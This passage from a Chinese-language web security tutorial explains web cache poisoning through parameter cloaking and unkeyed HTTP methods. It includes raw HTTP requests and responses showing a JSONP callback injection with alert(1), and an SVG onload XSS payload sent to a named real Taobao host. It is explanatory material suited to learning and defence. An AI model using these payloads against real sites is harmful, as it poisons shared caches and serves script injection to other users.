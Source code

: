 这一个把参数`utm_content`排除在cahche key之外的系统上，对于下面这样一个请求，只会看到一个参数，那就是`callback`：

```
GET /jsonp?callback=legit&amp;utm_content=x;callback=alert(1)// HTTP/1.1
Host: example.com

HTTP/1.1 200 OK
alert(1)//(some-data)

```

```
GET /jsonp?callback=legit HTTP/1.1
Host: example.com

HTTP/1.1 200 OK
X-Cache: HIT
alert(1)//(some-data)

```

但是，Rails却看到的是三个参数：`callback, utm_content, and callback`,由于有两个callback,所以，后一个callback参数的值会覆盖前一个

### <a class="reference-link" name="Unkeyed%E7%9A%84%E6%96%B9%E6%B3%95"></a>Unkeyed的方法

有一些系统没有把http请求的方法作为cache key的一部分，这时候我们还可以使用post方法来对cache key隐藏参数，当然，这要求那个接口既支持get方法也支持post方法，并且会把参数回显到响应中

```
POST /view/o2o/shop HTTP/1.1
Host: alijk.m.taobao.com

_wvUserWkWebView=a&lt;/script&gt;&lt;svg onload='alert%26lpar;1%26rpar;'/data-

HTTP/1.1 200 OK
…
"_wvUseWKWebView":"a&lt;/script&gt;&lt;svg onload='alert&amp;lpar;1&amp;rpar;'/data-"`}`,

```

```
GET /view/o2o/shop HTTP/1.1
Host: alijk.m.taobao.com

HTTP/1.1 200 OK
…
"_wvUseWKWebView":"a&lt;/script&gt;&lt;svg onload='alert&amp;lpar;1&amp;rpar;'/data-"`}`,

```

如果你想看更多关于这个的案例，可以移步到：

[https://enumerated.wordpress.com/2020/08/05/the-case-of-the-missing-cache-keys/](https://enumerated.wordpress.com/2020/08/05/the-case-of-the-missing-cache-keys/)
